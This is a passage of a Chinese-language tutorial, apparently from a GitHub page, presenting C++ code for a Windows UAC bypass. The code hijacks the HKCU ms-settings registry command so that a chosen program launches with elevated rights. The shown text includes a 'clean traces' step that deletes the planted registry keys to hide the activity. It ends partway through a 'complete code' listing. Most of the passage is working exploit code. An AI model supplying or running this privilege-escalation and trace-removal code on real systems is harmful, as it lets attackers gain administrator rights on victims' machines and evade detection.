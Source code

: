 ```cpp

	//释放进程句柄和线程句柄
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
```



### 5.清理痕迹

为了清理痕迹，程序等待一段时间后删除 `HKEY_CURRENT_USER\Software\Classes\ms-settings` 键，删除所有刚刚创建的键和键值

```cpp
Sleep(1000);

//删除整个ms-settings目录
if (RegDeleteTree(HKEY_CURRENT_USER,"Software\\Classes\\ms-settings") != ERROR_SUCCESS)
{
    printf("RegDeleteTree Error:%d", GetLastError());
    return false;
}
system("pause");
```



## 完整代码

```cpp
// BypassUac.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。

#include <iostream>
#include <Windows.h>

BOOL BypassUac(const char* filename) {
    HKEY hKey;
    const char* subKey = "Software\\Classes\\ms-settings\\shell\\open\\command";
    const char* valueName = "DelegateExecute";

    // 创建或打开注册表键
    if (RegCreateKeyEx(HKEY_CURRENT_USER, subKey, 0, NULL, 0, KEY_WRITE, NULL, &hKey, NULL) != ERROR_SUCCESS) {
        std::cerr << "Unable to create or open registry key\n";
        return false;
    }

    // 添加 "DelegateExecute" 键值
    if (RegSetValueEx(hKey, valueName, 0, REG_SZ, (const BYTE*)"", sizeof("")) != ERROR_SUCCESS) {
        std::cerr << "Unable to set registry value\n";
        RegCloseKey(hKey);
        return false;
    }

    // 设置默认键值为 "calc.exe"
    if (RegSetValueEx(hKey, NULL, 0, REG_SZ, (const BYTE*)filename, strlen(filename) + 1) != ERROR_SUCCESS) {
        std::cerr << "Unable to set default registry value\n";
        RegCloseKey(hKey);
        return false;
    }

	STARTUPINFO si;  //进程启动信息
	PROCESS_INFORMATION pi;  //进程信息
	ZeroMemory(&si, sizeof(si));  //将结构体si的所有成员都初始化为0
	ZeroMemory(&pi, sizeof(pi));  //将结构体pi的所有成员都初始化为0
	si.cb = sizeof(si);  //结构体大小
```
